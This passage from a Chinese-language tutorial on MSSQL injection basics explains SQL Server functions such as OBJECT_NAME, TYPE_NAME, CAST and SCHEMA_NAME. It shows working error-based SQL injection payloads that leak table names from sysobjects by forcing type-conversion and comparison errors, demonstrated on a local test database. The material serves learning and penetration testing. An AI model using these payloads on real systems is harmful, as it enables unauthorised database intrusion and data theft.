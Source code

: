 ### object_name() 
返回架构范围内对象的数据库对象名称。 
```sql
OBJECT_NAME ( object_id [, database_id ] )  
object_id 的数据类型为 int，并假定为指定数据库或当前数据库上下文中的架构范围内的对象
database_id 的数据类型为 int。要在其中查找对象的数据库的 ID
返回sysname
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_32_8yaqFKgM.png)

### type_name() 
返回指定类型 ID 的未限定的类型名称。
```sql
TYPE_NAME ( type_id )
type_id
type_id 的数据类型为 int，它可以引用调用方有权访问的任意架构中的类型。返回sysname
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_32_PHyw5hES.png)
### cast()
将表达式由一种数据类型转换为另一种数据类型。
```sql
CAST ( expression AS data_type [ ( length ) ] )  
expression
任何有效的表达式。
data_type
目标数据类型。 这包括 xml、bigint 和sql_variant 。 不能使用别名数据类型。
length
指定目标数据类型长度的可选整数，适用于允许用户指定长度的数据类型。 默认值为 30。
style
指定 CONVERT 函数将如何转换 expression 的整数表达式。 对于 NULL 的样式值，则返回 NULL。 data_type 确定范围。\
返回转换为 data_type 的 expression 。
```
```sql
select * from users where id = '1' and 1 = cast((select top 1 name from test..sysobjects where xtype = 'u' and name not in ('users')) as varchar)--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_33_sQNMyXhb.png)
### schema_name()
返回与架构 ID 关联的架构名称。
```sql
SCHEMA_NAME ( [ schema_id ] )  
schema_id	架构的 ID。 
schema_id 是 int。如果没有定义 schema_id，则 SCHEMA_NAME 将返回调用方的默认架构的名称。
schema_id 不是有效 ID 时，返回 NULL。
```
此处由于本地测试环境不支持该函数，故不做演示，类似相关的类型转换的函数还有很多，就不一一列出来了
### >、<、= 报错
这其实也是利用了类型不匹配来报错注入数据
```sql
select * from users where id = '1' and (select top 1 name from test..sysobjects where xtype= 'u' and name not in ('users')) > 0--+
select * from users where id = '1' and (select top 1 name from test..sysobjects where xtype= 'u' and name not in ('users')) = 0--+
select * from users where id = '1' and (select top 1 name from test..sysobjects where xtype= 'u' and name not in ('users')) < 0--+
```
